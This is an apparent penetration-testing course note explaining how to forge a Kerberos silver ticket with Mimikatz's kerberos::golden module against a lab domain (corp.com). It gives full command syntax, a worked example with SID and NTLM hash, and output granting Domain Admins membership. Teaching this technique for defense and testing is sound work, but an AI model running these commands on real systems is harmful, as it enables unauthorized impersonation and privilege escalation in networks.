Now that we have collected all three pieces of information, we can build the command to create a silver ticket with Mimikatz
+ We can create the forged service ticket with the _kerberos::golden_ module
+ This module provides the capabilities for creating golden and silver tickets alike
+ We'll explore the concept of golden tickets in the Module _Lateral Movement in Active Directory_

We need to provide the domain SID (**`/sid:`**), domain name (**`/domain:`**), and the target where the SPN runs (**`/target:`**)
+ We also need to include the SPN protocol (**/service:**), NTLM hash of the SPN (**/rc4:**), and the **/ptt** option, which allows us to inject the forged ticket into the memory of the machine we execute the command on
+ Finally, we must enter an existing domain user for **`/user:`**. This user will be set in the forged ticket
+ For this example, we'll use _`jeffadmin`_, however, we could also use any other domain user since we can set the permissions and groups ourselves
+ The complete command usage:
```
kerberos::golden /sid:<DOMAIN_SID> /domain:<DOMAIN> /ptt /target:<TARGET_MACHINE> /service:<SERVICE> /rc4:<NTLM_HASH> /user:<USER>
```
+ Example:
```
mimikatz # kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin
User      : jeffadmin
Domain    : corp.com (CORP)
SID       : S-1-5-21-1987370270-658905905-1781884369
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: 4d28cf5252d39971419580a51484ca09 - rc4_hmac_nt
Service   : http
Target    : web04.corp.com
Lifetime  : 9/14/2022 4:37:32 AM ; 9/11/2032 4:37:32 AM ; 9/11/2032 4:37:32 AM
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'jeffadmin @ corp.com' successfully submitted for current session

mimikatz # exit
Bye!
```

A new service ticket for the SPN _HTTP/web04.corp.com_ has been loaded into memory and Mimikatz set appropriate group membership permissions in the forged ticket
+ From the perspective of the IIS application, the current user will be both the built-in local administrator ( _Relative Id: 500_ ) and a member of several highly-privileged groups, including the Domain Admins group ( _Relative Id: 512_ ) as highlighted above
+ This means we should have the ticket ready to use in memory, can confirm this with **`klist`**
```
PS C:\Tools> klist

Current LogonId is 0:0xa04cc

Cached Tickets: (1)

#0>     Client: jeffadmin @ corp.com
        Server: http/web04.corp.com @ corp.com
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x40a00000 -> forwardable renewable pre_authent
        Start Time: 9/14/2022 4:37:32 (local)
```